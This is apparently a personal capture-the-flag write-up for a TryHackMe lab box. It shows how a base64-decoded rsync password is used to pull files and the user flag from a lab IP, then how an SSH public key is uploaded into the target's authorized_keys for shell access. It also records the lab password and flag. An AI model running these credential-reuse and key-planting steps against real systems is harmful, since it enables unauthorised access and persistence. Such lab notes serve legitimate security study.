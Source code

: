 - when decoded in `base64` i get this

```
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

```
rsync rsync://rsync-connect@10.10.146.124
```

https://www.tecmint.com/rsync-local-remote-file-synchronization-commands/
![[Pasted image 20230915030216.png]]


tried multiple commands but was getting error

```
rsync -azvh rsync-connect@10.10.146.124:/home/rsync-connect/user.txt user.txt
```

this one said wrong password, dont know why


- used the writeup here again as i was not getting it correct 

realized rsync nmap output

`873/tcp  open     rsync       (protocol version 31)`

``` wrieup command yntax
rsync -av --list-only rsync://$IP:873
```
this shows name of the folder hosted on `rsync`

- we had to make a temp file and copy all the `rsync remote files to our local machine`

```
rsync -av rsync://rsync-connect@10.10.146.124:873/files ./rsync
```

i used this command

copid the files and got the user flag

```
   │   ~/De/THM/internal/rsync/sys-internal ▓▒░ cat user.txt                                                              
THM{da7c20696831f253e0afaca8b83c07ab}
```

### Shell

- followed write up steps here, we can create and upload a ssh key pair to ssh into the machine
- created a ssh key pair using
```
   │   ~/Desktop/THM/internal ▓▒░ ssh-keygen -f ./id_rsa
```


writeup command to upload public key via rsync

```
rsync -ahv ./id_rsa.pub rsync://rsync-connect@$IP:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g
```
